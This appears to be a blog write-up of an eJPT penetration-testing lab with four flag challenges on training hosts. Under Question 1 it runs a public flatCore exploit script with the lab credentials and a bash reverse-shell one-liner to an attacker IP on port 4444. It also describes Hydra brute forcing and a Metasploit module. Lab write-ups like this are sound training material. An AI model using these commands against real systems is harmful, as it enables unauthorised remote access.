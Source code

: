 ```yaml
---
title: "eJPT - Host & Network Penetration Testing: Exploitation CTF 1"
date: 2025-06-01 00:00:02 - 0500
categories: [ eJPT , Lab , Vulnerability Assessment]
tags: [Footprinting, Easy]

---
```



### Lab Environment

Two Linux machines are accessible at **target1.ine.local** and **target2.ine.local**. Identify the application and service running on these machines, and capture the flags. The flag is an md5 hash format.

- **Flag 1:** Identify and exploit the vulnerable web application running on **target1.ine.local** and retrieve the flag from the root directory. The credentials **admin:password1** may be useful.
- **Flag 2:** Further, identify and compromise an insecure system user on **target1.ine.local**.
- **Flag 3:** Identify and exploit the vulnerable plugin used by the web application running on **target2.ine.local** and retrieve the **flag3.txt** file from the root directory.
- **Flag 4:** Further, identify and compromise a system user requiring no authentication on **target2.ine.local**.

The following wordlists will be useful:

- /usr/share/nmap/nselib/data/wp-plugins.lst
- /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt

### Tools

- Nmap
- Hydra
- Dirb
- Python3
- Metasploit

---



### Question 1:

Identify and exploit the vulnerable web application running on target1.ine.local and retrieve the flag from the root directory. The credentials admin:password1 may be useful.

In this we’ll gather the Information Gathering and found that system is running a vulnerable version of flatcore and exploiting this services gained access into the system. This is done by running the Exploit code which is just a username and the password


![alt text](</assets/img/Pasted image 20250601191931.png>)
```
python3 50262.py '<http://target1.ine.local>' 'admin' 'password1'
bash -c 'bash -i >& /dev/tcp/192.88.252.2/4444 0>&1'
```

---

### Question 2:

Further, identify and compromise an insecure system user on target1.ine.local.

here we are able to brute force using `hydra` on the user we found way in our initial access to the system, with that creds we logged in using SSH and found the flag2!.

![alt text](</assets/img/Pasted image 20250601191946.png>)
SSH into the machines

---

### Question 3:

Identify and exploit the vulnerable plugin used by the web application running on target2.ine.local and retrieve the flag3.txt file from the root directory.

In here the scope is already given for us, and we again run Nmap to identify the plugin, and exploiting the vulnerability will lead us to flag3!!

![alt text](</assets/img/Pasted image 20250601192008.png>)
```
nmap - script http-wordpress-enum - script-args host=target2.ine.local
```
![alt text](</assets/img/Pasted image 20250601192021.png>)

With this module from MSF console we’ll gain access to that target system.

---

### Question 4:

Further, identify and compromise a system user requiring no authentication on target2.ine.local.

In the system after navigating we found the username on /etc/passwd which with if logged on into the system, we grant access with out password.

```
ssh <user>@target2.ine.local
```

![alt text](</assets/img/Pasted image 20250601192039.png>)
And that’s how we found all the flag and completed the room!!! happy hacking!!!!
